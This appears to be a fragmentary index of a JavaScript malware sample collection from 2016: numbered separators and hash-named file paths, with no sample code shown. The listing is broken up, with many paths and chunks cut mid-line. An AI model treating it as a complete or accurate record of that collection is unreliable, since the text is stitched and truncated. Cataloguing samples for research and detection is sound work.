=========================================43074===========================================
=========================================43075===========================================
javascript-malware-collection-master\2016\20160311\20160311_beb18b81624943a1230555064c75014f.js
=========================================43076===========================================
javascript-malware-collection-master\2016\20160311\20160311_becf5fbec1ff17b568c487e214914034.js
=========================================43077===========================================
javascript-malware-collection-master\2016\20160311\20160311_bf8e9d9b1a28f23d770ac754854338b2.js
=========================================43078===========================================
javascript-malware-collection-master\2016\20160311\20160311_c04bab91d91f937bafbd44d97a71e17b.js
=========================================43079===========================================
=========================================43080==============================

=========================================43136===========================================
javascript-malware-collection-master\2016\20160311\20160311_f8c8ecbde1bab8feab436ae13fb6670c.js
=========================================43137===========================================
javascript-malware-collection-master\2016\20160311\20160311_fa2851b088d081ea76f6e177996c5551.js
=========================================43138===========================================
javascript-malware-collection-master\2016\20160311\20160311_fae5a68a5b90bb67d6e538b54af08111.js
=========================================43139===========================================
javascript-malware-collection-master\2016\20160311\20160311_fae80b013af27aa61b6e2dbb1b802bb5.js
=========================================43140===========================================
javascript-malware-collection-master\2016\20160311\20160311_fb0efda41cc7b00baef7d665deba2422.js
=========================================43141========================

=========================================43208===========================================
=========================================43209===========================================
=========================================43210===========================================
javascript-malware-collection-master\2016\20160313\20160313_5aa017bb3b5c3a2b8acbe6dae38e01f4.js
=========================================43211===========================================
=========================================43212===========================================
javascript-malware-collection-master\2016\20160313\20160313_67709a1cb4fb78213d75e8eb48ebd48d.js
=========================================43213===========================================
javascript-malware-collection-master\2016\20160313\20160313_6993fa914c58333f153e1e0ac3c2d40c.js
=========================================43214===========================================
=========================================43215====================================

=========================================43280===========================================
=========================================43281===========================================
=========================================43282===========================================
=========================================43283===========================================
=========================================43284===========================================
=========================================43285===========================================
=========================================43286===========================================
=========================================43287===========================================
=========================================43288===========================================
=========================================43289===========================================
=========================================43290===========================================
==========

=========================================43375===========================================
=========================================43376===========================================
=========================================43377===========================================
=========================================43378===========================================
=========================================43379===========================================
=========================================43380===========================================
=========================================43381===========================================
=========================================43382===========================================
=========================================43383===========================================
=========================================43384===========================================
=========================================43385===========================================
==========

=========================================43468===========================================
=========================================43469===========================================
=========================================43470===========================================
=========================================43471===========================================
=========================================43472===========================================
=========================================43473===========================================
=========================================43474===========================================
=========================================43475===========================================
=========================================43476===========================================
=========================================43477===========================================
=========================================43478===========================================
==========

=========================================43562===========================================
=========================================43563===========================================
=========================================43564===========================================
=========================================43565===========================================
=========================================43566===========================================
=========================================43567===========================================
=========================================43568===========================================
=========================================43569===========================================
=========================================43570===========================================
=========================================43571===========================================
=========================================43572===========================================
==========

=========================================43657===========================================
=========================================43658===========================================
=========================================43659===========================================
=========================================43660===========================================
=========================================43661===========================================
=========================================43662===========================================
=========================================43663===========================================
=========================================43664===========================================
=========================================43665===========================================
=========================================43666===========================================
=========================================43667===========================================
==========

=========================================43749===========================================
=========================================43750===========================================
=========================================43751===========================================
=========================================43752===========================================
=========================================43753===========================================
=========================================43754===========================================
=========================================43755===========================================
=========================================43756===========================================
=========================================43757===========================================
=========================================43758===========================================
=========================================43759===========================================
==========

=========================================43842===========================================
=========================================43843===========================================
=========================================43844===========================================
=========================================43845===========================================
=========================================43846===========================================
=========================================43847===========================================
=========================================43848===========================================
=========================================43849===========================================
=========================================43850===========================================
=========================================43851===========================================
=========================================43852===========================================
==========

=========================================43934===========================================
=========================================43935===========================================
=========================================43936===========================================
=========================================43937===========================================
=========================================43938===========================================
=========================================43939===========================================
=========================================43940===========================================
=========================================43941===========================================
=========================================43942===========================================
=========================================43943===========================================
=========================================43944===========================================
==========

=========================================44120===========================================
=========================================44121===========================================
=========================================44122===========================================
=========================================44123===========================================
=========================================44124===========================================
=========================================44125===========================================
=========================================44126===========================================
=========================================44127===========================================
=========================================44128===========================================
=========================================44129===========================================
=========================================44130===========================================
==========

=========================================44215===========================================
=========================================44216===========================================
=========================================44217===========================================
=========================================44218===========================================
=========================================44219===========================================
=========================================44220===========================================
=========================================44221===========================================
=========================================44222===========================================
=========================================44223===========================================
=========================================44224===========================================
=========================================44225===========================================
==========

=========================================44308===========================================
=========================================44309===========================================
=========================================44310===========================================
=========================================44311===========================================
=========================================44312===========================================
=========================================44313===========================================
=========================================44314===========================================
=========================================44315===========================================
=========================================44316===========================================
=========================================44317===========================================
=========================================44318===========================================
==========

=========================================44400===========================================
=========================================44401===========================================
=========================================44402===========================================
=========================================44403===========================================
=========================================44404===========================================
=========================================44405===========================================
=========================================44406===========================================
=========================================44407===========================================
=========================================44408===========================================
=========================================44409===========================================
=========================================44410===========================================
==========

=========================================44494===========================================
=========================================44495===========================================
=========================================44496===========================================
=========================================44497===========================================
=========================================44498===========================================
=========================================44499===========================================
=========================================44500===========================================
=========================================44501===========================================
=========================================44502===========================================
=========================================44503===========================================
=========================================44504===========================================
==========

=========================================44587===========================================
=========================================44588===========================================
=========================================44589===========================================
=========================================44590===========================================
=========================================44591===========================================
=========================================44592===========================================
=========================================44593===========================================
=========================================44594===========================================
=========================================44595===========================================
=========================================44596===========================================
=========================================44597===========================================
==========

javascript-malware-collection-master\2016\20160325\20160325_655b24e5ddf9fd1bb48c01f4f66c5354.js
=========================================44674===========================================
javascript-malware-collection-master\2016\20160325\20160325_6a1d951487c1257cc385a6a2fbd55beb.js
=========================================44675===========================================
javascript-malware-collection-master\2016\20160325\20160325_6b75d3c6782f6707842465743bb3d407.js
=========================================44676===========================================
javascript-malware-collection-master\2016\20160325\20160325_6c503cbf5c10baa7504b18f0bcbcce8d.js
=========================================44677===========================================
javascript-malware-collection-master\2016\20160325\20160325_6d3dcea725ff6cb5bf7cd9b454e73e22.js
=========================================44678===========================================
javascript-malware-collection-master\2016\20160325\20160325_700f670c9d

=========================================44732===========================================
=========================================44733===========================================
=========================================44734===========================================
=========================================44735===========================================
=========================================44736===========================================
=========================================44737===========================================
=========================================44738===========================================
=========================================44739===========================================
=========================================44740===========================================
=========================================44741===========================================
=========================================44742===========================================
==========

=========================================44824===========================================
=========================================44825===========================================
=========================================44826===========================================
=========================================44827===========================================
=========================================44828===========================================
=========================================44829===========================================
=========================================44830===========================================
=========================================44831===========================================
=========================================44832===========================================
=========================================44833===========================================
=========================================44834===========================================
==========

=========================================44919===========================================
=========================================44920===========================================
=========================================44921===========================================
=========================================44922===========================================
=========================================44923===========================================
=========================================44924===========================================
=========================================44925===========================================
=========================================44926===========================================
=========================================44927===========================================
=========================================44928===========================================
=========================================44929===========================================
==========

=========================================45015===========================================
=========================================45016===========================================
=========================================45017===========================================
=========================================45018===========================================
=========================================45019===========================================
=========================================45020===========================================
=========================================45021===========================================
=========================================45022===========================================
=========================================45023===========================================
=========================================45024===========================================
=========================================45025===========================================
==========

=========================================45110===========================================
=========================================45111===========================================
=========================================45112===========================================
=========================================45113===========================================
=========================================45114===========================================
=========================================45115===========================================
=========================================45116===========================================
=========================================45117===========================================
=========================================45118===========================================
=========================================45119===========================================
=========================================45120===========================================
==========

=========================================45205===========================================
=========================================45206===========================================
=========================================45207===========================================
=========================================45208===========================================
=========================================45209===========================================
=========================================45210===========================================
=========================================45211===========================================
=========================================45212===========================================
=========================================45213===========================================
=========================================45214===========================================
=========================================45215===========================================
==========

=========================================45297===========================================
=========================================45298===========================================
=========================================45299===========================================
=========================================45300===========================================
=========================================45301===========================================
=========================================45302===========================================
=========================================45303===========================================
=========================================45304===========================================
=========================================45305===========================================
=========================================45306===========================================
=========================================45307===========================================
==========

=========================================45389===========================================
=========================================45390===========================================
=========================================45391===========================================
=========================================45392===========================================
=========================================45393===========================================
=========================================45394===========================================
=========================================45395===========================================
=========================================45396===========================================
=========================================45397===========================================
=========================================45398===========================================
=========================================45399===========================================
==========

=========================================45484===========================================
=========================================45485===========================================
=========================================45486===========================================
=========================================45487===========================================
=========================================45488===========================================
=========================================45489===========================================
=========================================45490===========================================
=========================================45491===========================================
=========================================45492===========================================
=========================================45493===========================================
=========================================45494===========================================
==========

=========================================45579===========================================
=========================================45580===========================================
=========================================45581===========================================
=========================================45582===========================================
=========================================45583===========================================
=========================================45584===========================================
=========================================45585===========================================
=========================================45586===========================================
=========================================45587===========================================
=========================================45588===========================================
=========================================45589===========================================
==========

=========================================45673===========================================
=========================================45674===========================================
=========================================45675===========================================
=========================================45676===========================================
=========================================45677===========================================
=========================================45678===========================================
=========================================45679===========================================
=========================================45680===========================================
=========================================45681===========================================
=========================================45682===========================================
=========================================45683===========================================
==========

=========================================45768===========================================
=========================================45769===========================================
=========================================45770===========================================
=========================================45771===========================================
=========================================45772===========================================
=========================================45773===========================================
=========================================45774===========================================
=========================================45775===========================================
=========================================45776===========================================
=========================================45777===========================================
=========================================45778===========================================
==========

=========================================45864===========================================
=========================================45865===========================================
=========================================45866===========================================
=========================================45867===========================================
=========================================45868===========================================
=========================================45869===========================================
=========================================45870===========================================
=========================================45871===========================================
=========================================45872===========================================
=========================================45873===========================================
=========================================45874===========================================
==========

=========================================45959===========================================
=========================================45960===========================================
=========================================45961===========================================
=========================================45962===========================================
=========================================45963===========================================
=========================================45964===========================================
=========================================45965===========================================
=========================================45966===========================================
=========================================45967===========================================
=========================================45968===========================================
=========================================45969===========================================
==========

=========================================46051===========================================
=========================================46052===========================================
=========================================46053===========================================
=========================================46054===========================================
=========================================46055===========================================
=========================================46056===========================================
=========================================46057===========================================
=========================================46058===========================================
=========================================46059===========================================
=========================================46060===========================================
=========================================46061===========================================
==========

=========================================46144===========================================
=========================================46145===========================================
=========================================46146===========================================
=========================================46147===========================================
=========================================46148===========================================
=========================================46149===========================================
=========================================46150===========================================
=========================================46151===========================================
=========================================46152===========================================
javascript-malware-collection-master\2016\20160330\20160330_dcff20bfe71041b1cb590869a02338e6.js
=========================================46153===========================================
====

=========================================46235===========================================
=========================================46236===========================================
=========================================46237===========================================
=========================================46238===========================================
=========================================46239===========================================
=========================================46240===========================================
=========================================46241===========================================
=========================================46242===========================================
=========================================46243===========================================
=========================================46244===========================================
=========================================46245===========================================
==========

=========================================46327===========================================
=========================================46328===========================================
=========================================46329===========================================
=========================================46330===========================================
=========================================46331===========================================
=========================================46332===========================================
=========================================46333===========================================
=========================================46334===========================================
=========================================46335===========================================
=========================================46336===========================================
=========================================46337===========================================
==========

=========================================46419===========================================
=========================================46420===========================================
=========================================46421===========================================
=========================================46422===========================================
=========================================46423===========================================
=========================================46424===========================================
=========================================46425===========================================
=========================================46426===========================================
=========================================46427===========================================
=========================================46428===========================================
=========================================46429===========================================
==========

=========================================46515===========================================
=========================================46516===========================================
=========================================46517===========================================
=========================================46518===========================================
=========================================46519===========================================
=========================================46520===========================================
=========================================46521===========================================
=========================================46522===========================================
=========================================46523===========================================
=========================================46524===========================================
=========================================46525===========================================
==========

=========================================46611===========================================
=========================================46612===========================================
=========================================46613===========================================
=========================================46614===========================================
=========================================46615===========================================
=========================================46616===========================================
=========================================46617===========================================
=========================================46618===========================================
javascript-malware-collection-master\2016\20160401\20160401_e904aa5f2de9784939c062f36f835f10.js
=========================================46619===========================================
=========================================46620===========================================
====

=========================================46702===========================================
=========================================46703===========================================
=========================================46704===========================================
=========================================46705===========================================
=========================================46706===========================================
=========================================46707===========================================
=========================================46708===========================================
=========================================46709===========================================
=========================================46710===========================================
=========================================46711===========================================
=========================================46712===========================================
==========

=========================================46797===========================================
=========================================46798===========================================
=========================================46799===========================================
=========================================46800===========================================
=========================================46801===========================================
=========================================46802===========================================
=========================================46803===========================================
=========================================46804===========================================
=========================================46805===========================================
=========================================46806===========================================
=========================================46807===========================================
==========

=========================================46889===========================================
=========================================46890===========================================
=========================================46891===========================================
=========================================46892===========================================
=========================================46893===========================================
=========================================46894===========================================
=========================================46895===========================================
=========================================46896===========================================
=========================================46897===========================================
=========================================46898===========================================
=========================================46899===========================================
==========

=========================================46985===========================================
=========================================46986===========================================
=========================================46987===========================================
=========================================46988===========================================
=========================================46989===========================================
=========================================46990===========================================
=========================================46991===========================================
=========================================46992===========================================
=========================================46993===========================================
=========================================46994===========================================
=========================================46995===========================================
==========

=========================================47078===========================================
=========================================47079===========================================
=========================================47080===========================================
=========================================47081===========================================
=========================================47082===========================================
=========================================47083===========================================
=========================================47084===========================================
=========================================47085===========================================
=========================================47086===========================================
=========================================47087===========================================
=========================================47088===========================================
==========

=========================================47175===========================================
=========================================47176===========================================
=========================================47177===========================================
=========================================47178===========================================
=========================================47179===========================================
=========================================47180===========================================
=========================================47181===========================================
=========================================47182===========================================
=========================================47183===========================================
=========================================47184===========================================
=========================================47185===========================================
==========

=========================================47268===========================================
=========================================47269===========================================
=========================================47270===========================================
=========================================47271===========================================
=========================================47272===========================================
=========================================47273===========================================
=========================================47274===========================================
=========================================47275===========================================
=========================================47276===========================================
=========================================47277===========================================
=========================================47278===========================================
==========

=========================================47360===========================================
=========================================47361===========================================
=========================================47362===========================================
=========================================47363===========================================
=========================================47364===========================================
=========================================47365===========================================
=========================================47366===========================================
=========================================47367===========================================
=========================================47368===========================================
=========================================47369===========================================
=========================================47370===========================================
==========

=========================================47453===========================================
=========================================47454===========================================
=========================================47455===========================================
=========================================47456===========================================
=========================================47457===========================================
=========================================47458===========================================
=========================================47459===========================================
=========================================47460===========================================
=========================================47461===========================================
=========================================47462===========================================
=========================================47463===========================================
==========

=========================================47550===========================================
=========================================47551===========================================
=========================================47552===========================================
=========================================47553===========================================
=========================================47554===========================================
=========================================47555===========================================
=========================================47556===========================================
=========================================47557===========================================
=========================================47558===========================================
=========================================47559===========================================
=========================================47560===========================================
==========

=========================================47644===========================================
=========================================47645===========================================
=========================================47646===========================================
=========================================47647===========================================
=========================================47648===========================================
=========================================47649===========================================
=========================================47650===========================================
=========================================47651===========================================
=========================================47652===========================================
=========================================47653===========================================
=========================================47654===========================================
==========

=========================================47725===========================================
=========================================47726===========================================
javascript-malware-collection-master\2016\20160503\20160503_0ff6f6a53adf0f26940149cbc38c14c6.js
=========================================47727===========================================
=========================================47728===========================================
=========================================47729===========================================
javascript-malware-collection-master\2016\20160503\20160503_1290e15460ca68b18201bac3128082e7.js
=========================================47730===========================================
=========================================47731===========================================
=========================================47732===========================================
javascript-malware-collection-master\2016\20160503\20160503_141b309d10d010cc6a76c2941680

javascript-malware-collection-master\2016\20160503\20160503_3ad9bd2620ef3ae250f9e3a7e0e1ec8a.js
=========================================47782===========================================
=========================================47783===========================================
=========================================47784===========================================
javascript-malware-collection-master\2016\20160503\20160503_3bb925914e1d2bd8cfc6ae5f4fca16af.js
=========================================47785===========================================
javascript-malware-collection-master\2016\20160503\20160503_3c3dca6b4f339b943d5f4d4766c97170.js
=========================================47786===========================================
javascript-malware-collection-master\2016\20160503\20160503_3d05d4c6bd6b45e170bb5418cc9ee335.js
=========================================47787===========================================
=========================================47788==============================

javascript-malware-collection-master\2016\20160503\20160503_5b9b8f1befa800ce39282a5f994b5acd.js
=========================================47839===========================================
javascript-malware-collection-master\2016\20160503\20160503_5c2de4b95e3446c23da9deee28ca4848.js
=========================================47840===========================================
javascript-malware-collection-master\2016\20160503\20160503_5d3a1c0ffc5b99007a2cad87dcc7e08b.js
=========================================47841===========================================
javascript-malware-collection-master\2016\20160503\20160503_5d9a8ee4f3b331295c2dfa7e70344b38.js
=========================================47842===========================================
=========================================47843===========================================
=========================================47844===========================================
javascript-malware-collection-master\2016\20160503\20160503_5ebcb1159d463de2

javascript-malware-collection-master\2016\20160503\20160503_817c397e810eb71772e5d926166c354c.js
=========================================47899===========================================
javascript-malware-collection-master\2016\20160503\20160503_81ab35995b8fe14b01751c3de4f44296.js
=========================================47900===========================================
javascript-malware-collection-master\2016\20160503\20160503_835b46f424fa39f4eb9cae8adce18a0b.js
=========================================47901===========================================
javascript-malware-collection-master\2016\20160503\20160503_848368ffe50a179bad0ed118386cf760.js
=========================================47902===========================================
=========================================47903===========================================
javascript-malware-collection-master\2016\20160503\20160503_861410ff4d705ad66577d78273965af6.js
=========================================47904========================

=========================================47959===========================================
javascript-malware-collection-master\2016\20160503\20160503_a0968223a89c81e04d8cc753c27ed3c2.js
=========================================47960===========================================
javascript-malware-collection-master\2016\20160503\20160503_a0f1be22714b50a556981ed82ff2d87b.js
=========================================47961===========================================
javascript-malware-collection-master\2016\20160503\20160503_a27d27c7c2cac31b392b715d06b7726b.js
=========================================47962===========================================
javascript-malware-collection-master\2016\20160503\20160503_a34ec94fddcca86fd5a3ec10760c9e5e.js
=========================================47963===========================================
javascript-malware-collection-master\2016\20160503\20160503_a39880b7578079b99bf17edfe0d1ed83.js
=========================================47964========================

=========================================48015===========================================
=========================================48016===========================================
javascript-malware-collection-master\2016\20160503\20160503_c148db0e9b93c433fa99118eb05330ee.js
=========================================48017===========================================
javascript-malware-collection-master\2016\20160503\20160503_c170eef47e0d34c5001c1187d3201a37.js
=========================================48018===========================================
javascript-malware-collection-master\2016\20160503\20160503_c1c875f5f4c8951c628b26d258ce5de8.js
=========================================48019===========================================
javascript-malware-collection-master\2016\20160503\20160503_c22c83caac952a9650abfda0d55e42c1.js
=========================================48020===========================================
javascript-malware-collection-master\2016\20160503\20160503_c300ba0134ea62eb

=========================================48069===========================================
javascript-malware-collection-master\2016\20160503\20160503_e4b2ecd8fa08d3b93cb30060933afe56.js
=========================================48070===========================================
javascript-malware-collection-master\2016\20160503\20160503_e4c0413f9e1cd21dbff3d7f0d2214744.js
=========================================48071===========================================
javascript-malware-collection-master\2016\20160503\20160503_e4dbd4e7af0b35bd4c7756e5406e5e9f.js
=========================================48072===========================================
javascript-malware-collection-master\2016\20160503\20160503_e5aa517cf67d09f130581305fc826096.js
=========================================48073===========================================
=========================================48074===========================================
javascript-malware-collection-master\2016\20160503\20160503_e623a0645c99dfc2

=========================================48122===========================================
javascript-malware-collection-master\2016\20160503\20160503_fcb4d9f29a93c8c10522fba9105a2e50.js
=========================================48123===========================================
javascript-malware-collection-master\2016\20160503\20160503_fcf27761f39b9e70998db5c47a42fa86.js
=========================================48124===========================================
=========================================48125===========================================
=========================================48126===========================================
javascript-malware-collection-master\2016\20160503\20160503_fee26559e986a719da46fced8ba0a08c.js
=========================================48127===========================================
javascript-malware-collection-master\2016\20160503\20160503_fee2ff1724844744e827ebc347a3bfd1.js
=========================================48128==============================

javascript-malware-collection-master\2016\20160504\20160504_17c08a2bf8363c671ae74d430e406612.js
=========================================48171===========================================
javascript-malware-collection-master\2016\20160504\20160504_17c1dd98039d2ded0a4ec3525156f749.js
=========================================48172===========================================
javascript-malware-collection-master\2016\20160504\20160504_18f411e4d98e367a51cbaf34369fc550.js
=========================================48173===========================================
javascript-malware-collection-master\2016\20160504\20160504_1913d3c154eea76fc882d288b2e75a5e.js
=========================================48174===========================================
javascript-malware-collection-master\2016\20160504\20160504_19b4acf3aaba522b8d93b88041fac842.js
=========================================48175===========================================
javascript-malware-collection-master\2016\20160504\20160504_19c61e10ee

javascript-malware-collection-master\2016\20160504\20160504_31ecd444a50636cd12a41c7970405e6b.js
=========================================48218===========================================
javascript-malware-collection-master\2016\20160504\20160504_32d8183c4f3817ecf580a02852e7734d.js
=========================================48219===========================================
javascript-malware-collection-master\2016\20160504\20160504_32d8da5cf2c11ec88c9e24d5486aa649.js
=========================================48220===========================================
javascript-malware-collection-master\2016\20160504\20160504_3303272a4b8faa06037cfea212856aa6.js
=========================================48221===========================================
javascript-malware-collection-master\2016\20160504\20160504_332d2a93a241cf40c331801f699c454b.js
=========================================48222===========================================
javascript-malware-collection-master\2016\20160504\20160504_333591320e

javascript-malware-collection-master\2016\20160504\20160504_41744c151f6e7d4ced6990aec5e079d1.js
=========================================48266===========================================
javascript-malware-collection-master\2016\20160504\20160504_426cab9b5749cff912eca403d55eb612.js
=========================================48267===========================================
javascript-malware-collection-master\2016\20160504\20160504_426fcf586f78419cbd93dd64d3805a40.js
=========================================48268===========================================
javascript-malware-collection-master\2016\20160504\20160504_43114b57547112772637fc1ceca22f0b.js
=========================================48269===========================================
=========================================48270===========================================
javascript-malware-collection-master\2016\20160504\20160504_43827f23ec7b1f0f9e750dcabc314f25.js
=========================================48271========================

javascript-malware-collection-master\2016\20160504\20160504_599bf8b53e4d6f9b75d0a0dca5b2c6a7.js
=========================================48315===========================================
=========================================48316===========================================
javascript-malware-collection-master\2016\20160504\20160504_5a4e114a3cb0bd819e9316f237bc1f3f.js
=========================================48317===========================================
javascript-malware-collection-master\2016\20160504\20160504_5a7adb9e4cc46fec5e87fe79c85fbf28.js
=========================================48318===========================================
javascript-malware-collection-master\2016\20160504\20160504_5aed3a1f944afae8f0bc985c3af15286.js
=========================================48319===========================================
javascript-malware-collection-master\2016\20160504\20160504_5afc0dddcde28b8c4a9e6d5a72c4cba1.js
=========================================48320========================

javascript-malware-collection-master\2016\20160504\20160504_6c1934de0f268e8a4090dd7f1935e81e.js
=========================================48366===========================================
javascript-malware-collection-master\2016\20160504\20160504_6c1e6c81a5301535c2356e59086a473c.js
=========================================48367===========================================
javascript-malware-collection-master\2016\20160504\20160504_6c2e9179cfd999866ecf88bc0574d399.js
=========================================48368===========================================
=========================================48369===========================================
javascript-malware-collection-master\2016\20160504\20160504_6d6f791b9a1eb4ac56b5c1ef7566d836.js
=========================================48370===========================================
javascript-malware-collection-master\2016\20160504\20160504_6d72fbebcc612159e34e507e62611c51.js
=========================================48371========================

javascript-malware-collection-master\2016\20160504\20160504_81f31d091a3820621f0ab34bedbc423c.js
=========================================48416===========================================
javascript-malware-collection-master\2016\20160504\20160504_82f68718413ad4e07dca3e1020e91ee7.js
=========================================48417===========================================
=========================================48418===========================================
javascript-malware-collection-master\2016\20160504\20160504_83b7435ed019bd9cdfb5f6e070536d82.js
=========================================48419===========================================
javascript-malware-collection-master\2016\20160504\20160504_84732c574c22c43e764078db01851bbc.js
=========================================48420===========================================
javascript-malware-collection-master\2016\20160504\20160504_850e3fe6f46325c22a6c2d0c6ff5ba49.js
=========================================48421========================

=========================================48464===========================================
javascript-malware-collection-master\2016\20160504\20160504_9830ab104d89d8af3ffdf3141501d86e.js
=========================================48465===========================================
javascript-malware-collection-master\2016\20160504\20160504_9882db93dd4155e8c3df54d6a0c07622.js
=========================================48466===========================================
javascript-malware-collection-master\2016\20160504\20160504_99f58eb9b013bbf2efad889d37b33de2.js
=========================================48467===========================================
=========================================48468===========================================
javascript-malware-collection-master\2016\20160504\20160504_9bbceba1c9529e677782e68cfbf8e3de.js
=========================================48469===========================================
javascript-malware-collection-master\2016\20160504\20160504_9bbfa3b7eb924db9

javascript-malware-collection-master\2016\20160504\20160504_af7f561a3ec4d76268e4ce7c9278fadf.js
=========================================48514===========================================
javascript-malware-collection-master\2016\20160504\20160504_b0c0d24f8dc2e61fd0d34060b5e735bb.js
=========================================48515===========================================
javascript-malware-collection-master\2016\20160504\20160504_b116ca09f862a722649e4fe073259543.js
=========================================48516===========================================
javascript-malware-collection-master\2016\20160504\20160504_b18677855839278be397d7329048e363.js
=========================================48517===========================================
javascript-malware-collection-master\2016\20160504\20160504_b2dfef055ce33c843a38fcb3f04b43c7.js
=========================================48518===========================================
javascript-malware-collection-master\2016\20160504\20160504_b34f36a87f

javascript-malware-collection-master\2016\20160504\20160504_c977808eaab903ceef936eb443a5bb6d.js
=========================================48561===========================================
javascript-malware-collection-master\2016\20160504\20160504_c9debbd887d153866da57b2951ec4efb.js
=========================================48562===========================================
javascript-malware-collection-master\2016\20160504\20160504_cb0445e73935b4605f8f97fa5882c175.js
=========================================48563===========================================
=========================================48564===========================================
javascript-malware-collection-master\2016\20160504\20160504_cc49385ee6ff7ff48703d2a091ce73df.js
=========================================48565===========================================
javascript-malware-collection-master\2016\20160504\20160504_ccbd59605ec245b65af5fcf1d12dc53a.js
=========================================48566========================

javascript-malware-collection-master\2016\20160504\20160504_e2604c5715c6441e29f33c885078b0f9.js
=========================================48609===========================================
javascript-malware-collection-master\2016\20160504\20160504_e2f3cb8e085e698787843f679e94f5a0.js
=========================================48610===========================================
javascript-malware-collection-master\2016\20160504\20160504_e2f3f794267c441fe2d776d40839b981.js
=========================================48611===========================================
javascript-malware-collection-master\2016\20160504\20160504_e3f1f25030d86a600ff351f37549f20b.js
=========================================48612===========================================
javascript-malware-collection-master\2016\20160504\20160504_e42af0e427503f328e758cf6e3b3ae7a.js
=========================================48613===========================================
javascript-malware-collection-master\2016\20160504\20160504_e527cfc6d4

javascript-malware-collection-master\2016\20160504\20160504_fbc0db86fdd13d10db8095f05f79f7b2.js
=========================================48655===========================================
javascript-malware-collection-master\2016\20160504\20160504_fc1e302dd2d56acb297e6c63499aab8e.js
=========================================48656===========================================
javascript-malware-collection-master\2016\20160504\20160504_fc242bf0b0799372d4423959cba88353.js
=========================================48657===========================================
=========================================48658===========================================
javascript-malware-collection-master\2016\20160504\20160504_fc70fdc069ddde8c9b4b4903f2896c0b.js
=========================================48659===========================================
javascript-malware-collection-master\2016\20160504\20160504_fc7a46e8db1bb613f396646b6182f60b.js
=========================================48660========================

javascript-malware-collection-master\2016\20160505\20160505_1221f0fc53ffb983468869b3ca2cd08a.js
=========================================48708===========================================
=========================================48709===========================================
javascript-malware-collection-master\2016\20160505\20160505_12879907383165399e972f5f0e7cbf90.js
=========================================48710===========================================
=========================================48711===========================================
javascript-malware-collection-master\2016\20160505\20160505_14b73411cd8cc5947c950f47f8140ae6.js
=========================================48712===========================================
=========================================48713===========================================
javascript-malware-collection-master\2016\20160505\20160505_170881768895fbcc0458588e82b8de65.js
=========================================48714==============================

javascript-malware-collection-master\2016\20160505\20160505_41c93c65a03bec231323e2d5e8fcdb24.js
=========================================48765===========================================
=========================================48766===========================================
=========================================48767===========================================
=========================================48768===========================================
javascript-malware-collection-master\2016\20160505\20160505_45360d39e0c32015ffd632a8f27fa0cc.js
=========================================48769===========================================
javascript-malware-collection-master\2016\20160505\20160505_456f3ff592c3b8de981773a82bdf7ae9.js
=========================================48770===========================================
=========================================48771===========================================
=========================================48772====================================

javascript-malware-collection-master\2016\20160505\20160505_719bccecb69c9afc2d7bf6359a656a4a.js
=========================================48823===========================================
javascript-malware-collection-master\2016\20160505\20160505_73447e7d1c8378d140817476aa995f97.js
=========================================48824===========================================
=========================================48825===========================================
=========================================48826===========================================
=========================================48827===========================================
=========================================48828===========================================
javascript-malware-collection-master\2016\20160505\20160505_79a0aa3882a461ad3dc2da369bd3e254.js
=========================================48829===========================================
=========================================48830====================================

=========================================48881===========================================
javascript-malware-collection-master\2016\20160505\20160505_9c842b50c98e1cbce76335f6108e4b94.js
=========================================48882===========================================
javascript-malware-collection-master\2016\20160505\20160505_9e2eeb9ef9d74e7a8b71537ea95db7b0.js
=========================================48883===========================================
javascript-malware-collection-master\2016\20160505\20160505_9f312d5512f90e5b842530f209127e3a.js
=========================================48884===========================================
javascript-malware-collection-master\2016\20160505\20160505_9f8e8118c6b64d922cd451e9fe11c669.js
=========================================48885===========================================
javascript-malware-collection-master\2016\20160505\20160505_9fa3250de9aabda5af6fb3720f170ecc.js
=========================================48886========================

javascript-malware-collection-master\2016\20160505\20160505_c9a237ae9c05137ec4f728ffc263247b.js
=========================================48935===========================================
=========================================48936===========================================
javascript-malware-collection-master\2016\20160505\20160505_ccdd89f613d12fcf9e6182d63825894a.js
=========================================48937===========================================
=========================================48938===========================================
javascript-malware-collection-master\2016\20160505\20160505_cdbe864f0b9ee9eb977e68a63faf42bb.js
=========================================48939===========================================
=========================================48940===========================================
=========================================48941===========================================
javascript-malware-collection-master\2016\20160505\20160505_d0250d6e6c9bdf13bb566c

javascript-malware-collection-master\2016\20160505\20160505_fabd31010c2d499079d4aa8dc71a3ba8.js
=========================================48989===========================================
=========================================48990===========================================
javascript-malware-collection-master\2016\20160505\20160505_fd989edba62ff8bc780782019c9435df.js
=========================================48991===========================================
=========================================48992===========================================
javascript-malware-collection-master\2016\20160505\20160505_fe420b1caf302b0d406394e6e4fa57ce.js
=========================================48993===========================================
=========================================48994===========================================
=========================================48995===========================================
=========================================48996====================================

=========================================49076===========================================
=========================================49077===========================================
=========================================49078===========================================
=========================================49079===========================================
=========================================49080===========================================
=========================================49081===========================================
=========================================49082===========================================
=========================================49083===========================================
=========================================49084===========================================
=========================================49085===========================================
=========================================49086===========================================
==========

javascript-malware-collection-master\2016\20160510\20160510_1c0b2212c50b32dcc85637e5d1a4111c.js
=========================================49135===========================================
javascript-malware-collection-master\2016\20160510\20160510_1c1ab4157a4039bde455907cbc575f60.js
=========================================49136===========================================
javascript-malware-collection-master\2016\20160510\20160510_1c79ea40241a8e22b29c4163bb65fa8a.js
=========================================49137===========================================
=========================================49138===========================================
javascript-malware-collection-master\2016\20160510\20160510_1e457b2803e353648b0dad3b29b5bd8f.js
=========================================49139===========================================
javascript-malware-collection-master\2016\20160510\20160510_1e9e47fb316864e964faf8173b184b32.js
=========================================49140========================

javascript-malware-collection-master\2016\20160510\20160510_43a2b133ca262851869fe75f2365b17d.js
=========================================49187===========================================
javascript-malware-collection-master\2016\20160510\20160510_440d3efbbfe5c88e421305dfcadb4020.js
=========================================49188===========================================
javascript-malware-collection-master\2016\20160510\20160510_44975fcdfceefcd7e6c0acb98ab9eeb3.js
=========================================49189===========================================
=========================================49190===========================================
javascript-malware-collection-master\2016\20160510\20160510_45a0950b49388b5a4a91cbb5a517c54e.js
=========================================49191===========================================
javascript-malware-collection-master\2016\20160510\20160510_45c4977c52684e0ef9719431ec30c1c0.js
=========================================49192========================

javascript-malware-collection-master\2016\20160510\20160510_60a92597a138af31773708bd3654b55d.js
=========================================49234===========================================
=========================================49235===========================================
javascript-malware-collection-master\2016\20160510\20160510_60e1da7d87feb1de3bd71955007c452c.js
=========================================49236===========================================
=========================================49237===========================================
javascript-malware-collection-master\2016\20160510\20160510_61097ea44b492ed13435d1f609a6ff0d.js
=========================================49238===========================================
javascript-malware-collection-master\2016\20160510\20160510_61557673d152b8b69f79c1425026717f.js
=========================================49239===========================================
